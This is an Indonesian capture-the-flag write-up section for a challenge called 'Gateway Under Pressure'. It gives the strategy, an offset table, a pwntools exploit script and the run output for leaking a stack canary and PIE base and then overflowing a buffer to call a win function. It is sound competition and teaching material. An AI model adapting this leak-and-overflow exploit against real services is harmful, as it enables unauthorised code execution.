


# Gateway Under Pressure — Eksploitasi

[← Overview](37-gateway-under-pressure.md) · [Index](index.md)

### 3.1 Strategi

1. Pilih `[2] Audit memory`, kirim length `4096`, baca 4096 byte.
2. Ambil canary di offset `0x48`, return address di `0x58`, hitung PIE base.
3. Pilih `[1] Register session` (dispatch hanya diizinkan setelah register).
4. Pilih `[3] Dispatch request`, kirim payload:
   `0x48 filler + canary + 0 + ret(gadget) + release_gateway`.
5. Gadget `ret` di `PIE+0x101a` dipakai untuk memperbaiki alignment stack sebelum `release_gateway()` memanggil `fopen`/`printf`.
6. Flag tercetak oleh `release_gateway()`.

### 3.2 Offset

| Item | Nilai |
|---|---|
| canary offset dari buf | `0x48` |
| saved RIP offset | `0x58` |
| `main` return offset (leak) | `0x1807` |
| gadget `ret` | PIE + `0x101a` |
| `release_gateway` | PIE + `0x12e1` |

### 3.3 Script exploit

Tersimpan di `writeups/assets/gateway-under-pressure/exploit.py`:

```python
p.sendline(b'2'); p.recvuntil(b') : '); p.sendline(b'4096')
leak = p.recvn(4096)
canary  = u64(leak[0x48:0x50])
retaddr = u64(leak[0x58:0x60])
base    = retaddr - 0x1807

p.sendline(b'1'); p.recvuntil(b'session token : '); p.sendline(b'x')

payload  = b'A' * 0x48 + p64(canary) + p64(0)
payload += p64(base + 0x101a)                 # ret
payload += p64(base + e.symbols['release_gateway'])
p.sendline(b'3'); p.recvuntil(b') : '); p.sendline(str(len(payload)).encode())
p.recvuntil(b'dispatch payload : '); p.send(payload)
```

Menjalankan:

```bash
cd writeups/assets/gateway-under-pressure
echo 'NFX{LOCAL_TEST_FLAG_GATEWAY}' > flag.txt
python3 exploit.py | tee 03-exploit-run.txt
```

### 3.4 Output asli

```text
[*] Starting local process '.../peserta/gateway'
[+] Starting local process '.../peserta/gateway': pid 141903
[+] canary   = 0xa2f7733e11e6af00
[+] retaddr  = 0x5b0fd6926807
[+] pie base = 0x5b0fd6925000
[+] dispatch diterima (104 byte)
FLAG: NFX{LOCAL_TEST_FLAG_GATEWAY}
```

Fixture lokal berisi `NFX{LOCAL_TEST_FLAG_GATEWAY}`; flag kompetisi ada di bagian 4.

### Evidence langkah ini



*Terminal evidence — `02b-stack.txt` (arsip transkrip sesi solve).*



*Terminal evidence — `03-exploit-run.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`02b-stack.txt`](assets/gateway-under-pressure/02b-stack.txt)
- [`03-exploit-run.txt`](assets/gateway-under-pressure/03-exploit-run.txt)
